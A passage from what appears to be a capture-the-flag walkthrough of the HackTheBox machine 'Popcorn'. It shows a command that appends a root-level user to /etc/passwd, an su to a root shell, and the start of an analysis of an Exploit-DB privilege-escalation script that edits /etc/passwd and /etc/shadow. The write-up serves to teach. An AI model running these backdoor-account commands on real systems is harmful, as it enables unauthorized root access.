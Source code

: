 
Now I’ll add a user to `/etc/passwd`:

    
    
    www-data@popcorn:/var/www$ echo 'oxdf:$1$sWwJSjdl$vj3sfStwX82SUTKJDoYhI1:0:0:pwned:/root:/bin/bash' >> /etc/passwd  
    

The user is oxdf, the password is the hash of `0xdf`, the user and group ids
are 0 for root, the description is pwned, the home directory is `/root`, and
the shell is `/bin/bash`.

#### Shell

Now I can just `su` to oxdf to get a root shell:

    
    
    www-data@popcorn:/var/www$ su - oxdf
    Password: 
    root@popcorn:~# id
    uid=0(root) gid=0(root) groups=0(root)
    

And grab `root.txt`:

    
    
    root@popcorn:~# cat root.txt
    f1223310************************
    

### Script

#### Analysis

The [Exploid-DB script](https://www.exploit-db.com/exploits/14339) defines a
bunch of functions, does some basic checks, and then runs this:

    
    
    KEY="$(mktemp -u)"
    key_create || { echo "[-] Failed to setup SSH key"; exit 1; }
    backup ~/.cache || { echo "[-] Failed to backup ~/.cache"; bye; }
    own /etc/passwd && echo "$P" >> /etc/passwd
    own /etc/shadow && echo "$S" >> /etc/shadow
    restore ~/.cache || { echo "[-] Failed to restore ~/.cache"; bye; }
    key_remove
    echo "[+] Success! Use password toor to get root"
    su -c "sed -i '/toor:/d' /etc/{passwd,shadow}; chown root: /etc/{passwd,shadow}; \
      chgrp shadow /etc/shadow; nscd -i passwd >/dev/null 2>&1; bash" toor
    

`key_create` creates an SSH key and installs it into the current user’s home
directory, being careful to backup whatever is already there.

`backup ~/.cache` will do just that - create a backup copy of the directory.

The `own` function is worth looking at:

    
    